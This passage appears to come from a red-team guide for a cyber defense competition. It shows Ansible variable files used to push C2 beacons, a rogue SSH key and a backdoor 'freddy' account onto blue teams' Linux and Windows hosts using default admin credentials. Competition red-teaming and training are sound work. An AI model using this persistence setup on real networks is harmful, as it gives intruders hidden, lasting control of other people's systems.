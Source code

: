 As normal, we set up our C2 infrastructure and prepare our payloads. Let's call them `apollo.exe`
and `merlin` for our Windows and Linux payloads respectively. We copy our `apollo.exe` into
`roles/windows/files` and our `merlin` into `roles/linux/files`. We also create a new SSH key called
`id_rsa` to distribute to all blue teams' Linux boxes and copy the `id_rsa.pub` into the
`roles/linux/files` directory.

Let's edit the `vars.yml` file with the username/password of the user we want to add as persistence
into the environment. We should add the filenames of our beacons, `apollo.exe` and `merlin`, and
the name of our SSH key, `id_rsa.pub`, to the file as well.

Our `vars.yml` can look like something below for now:

```yaml
lin:
  ansible_user:
  ansible_password:
  ansible_sudo_pass:
  # Linux - Tasks variables
  lin_user: freddy
  lin_pass: Sup3rS3cr3tPass!
  beacon_filename: merlin
  sshkey_filename: id_rsa.pub
  payload_dest: /opt
win:
  ansible_user:
  ansible_password:
  # Windows- Tasks variables
  win_user: freddy
  win_pass: Sup3rS3cr3tPass!
  beacon_filename: apollo.exe
  payload_dest: C:\Windows\Temp
```

Now we must obtain some sort of administrative default credential into the environment - that can
be from OSINT on the blue team briefing packet, or discovered quickly on the environment
(assuming that the environment is created accordingly, hopefully). Once we obtain those creds,
we can plug them into our `vars.yml` file as well.

Let's say that the default administrative creds were something like `root:NiceToMeetYou!` for Linux
and `Administrator:NiceToMeetYou!` for Windows. Let's add those to our `vars.yml` file:

```yaml
lin:
  ansible_user: root
  ansible_password: NiceToMeetYou!
  ansible_sudo_pass: NiceToMeetYou!
  # Linux - Tasks variables
  lin_user: freddy
  lin_pass: Sup3rS3cr3tPass!
  beacon_filename: merlin
  sshkey_filename: id_rsa.pub
  payload_dest: /opt
win:
  ansible_user: Administrator
  ansible_password: NiceToMeetYou!
  # Windows - Tasks variables
  win_user: freddy
  win_pass: Sup3rS3cr3tPass!
  beacon_filename: apollo.exe
  payload_dest: C:\Windows\Temp
```
